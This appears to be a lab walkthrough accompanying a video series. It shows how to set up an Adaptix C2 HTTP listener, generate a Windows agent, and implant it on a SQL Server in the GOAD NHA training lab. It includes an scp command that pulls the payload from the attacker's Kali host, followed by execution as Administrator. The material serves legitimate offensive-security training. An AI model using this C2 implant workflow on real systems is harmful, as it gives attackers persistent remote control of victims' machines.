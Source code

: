 ## **08   Adaptix C2 in Action: Building a Listener and Implanting the GOAD NHA SQL Server**

This guide accompanies the **eighth video** in your series, demonstrating how to create an HTTP listener, generate a Windows agent, and implant it on SQL Server 1 in the NHA-GOAD lab. You’ll use SCP to transfer the agent from Kali to sql server, execute the implant, and validate the connection in Adaptix C2.

---

# **Key Takeaways**

## 1. **Listener and Agent Basics**

- **Listener**: A network endpoint in Adaptix C2 that waits for agent connections (beacons).
    
- **Agent**: The executable payload deployed to a target (here, sql server) that connects back to the C2.
    

## 2. **Workflow Overview**

- Create a Beacon HTTP listener in Adaptix.
    
- Generate a Windows agent tied to the listener.
    
- Organize payloads on Kali for easy transfer.
    
- Use SCP from sql server to fetch the agent from Kali.
    
- Run the agent on sql server and verify the session in Adaptix.
    

---

# **Step-by-Step Implant Deployment Guide**

## **1. Create a Beacon HTTP Listener in Adaptix**

1. **On Kali, launch AdaptixClient:**
```bash
  adaptixclient
```
    
2. **Navigate to the Listeners tab.**
    
3. **Click “Add Listener” > Select “Beacon HTTP”.**
    
4. **Configure parameters:**
    
    - **Name:** http-listener
        
    - **Port:** 443 (or your preferred port)
        
    - **Bind Address:** 10.3.99.1 <adaptix_c2_server_ip>
        
5. **Save and start the listener.**
    
    - Confirm the listener shows as “Active.”
        

## **2. Generate a Windows Agent Payload**

1. **Go to the Agents/Implants tab in AdaptixClient.**
    
2. **Click “Generate Agent” **
    
3. **Choose:**
    
    - **Listener:** http-listener (created above)
        
    - **Platform:** Windows
        
    - **Architecture:** x64
        
4. **Click “Generate.”**
    
5. **Note the output file location (e.g., `/home/kali/Desktop/payloads/adapt.exe`).**
    

## **3. Prepare Payloads Directory on Kali**

```cmd
mkdir -p /home/kali/Desktop/payloads
cp /home/kali/adapt.exe /home/kali/Desktop/payloads/

```

## **4. Transfer Agent to SQL Server 1 via SCP**

- **From sql server (after RDP login), open Command Prompt.**
    
- **Run:**
```cmd
scp kali@10.3.99.2:/home/kali/Desktop/payloads/adapt.exe C:\ludus\

```
    
    - **Password:** kali
        

> **Note:** If `scp` is not installed, use [WinSCP](https://winscp.net/) or [pscp.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).

## **5. Run the Agent on sql server**

1. **On sql server, open Command Prompt as Administrator.**
    
2. **Navigate to the target directory:**
    
    `cd C:\ludus`
    
3. **Execute the agent:**
    
    `adapt.exe`
    
4. **No output means the agent is running.**
    

## **6. Validate Connection in Adaptix**

- **In AdaptixClient (Kali), check the Sessions/Agents tab.**
    
- **Look for a new session from sql server.**
    
- **Status should show as “Active” or “Connected.”**
    

---

# **Tools Used**

- **Adaptix C2:** C2 framework for agent/listener management  
    [Adaptix Docs](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/getting-starting/starting)
    
- **Kali Linux:** Operator VM for Adaptix and payload hosting
    
- **sql server:** Target Windows host for implant
    
- **SCP:** Secure file copy for agent transfer  
    [SCP Guide](https://www.ssh.com/academy/ssh/scp)
    
- **RDP:** Remote Desktop Protocol for Windows access
    
---

# **References**

1. [Adaptix Framework - Getting Started](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/getting-starting/starting)
    
2. [Ludus Platform Docs](https://docs.ludus.cloud/docs/roles)
    
3. [WinSCP Download](https://winscp.net/)
    

---

> [Subscribe for updates](https://www.youtube.com/@ITSecurityLabs)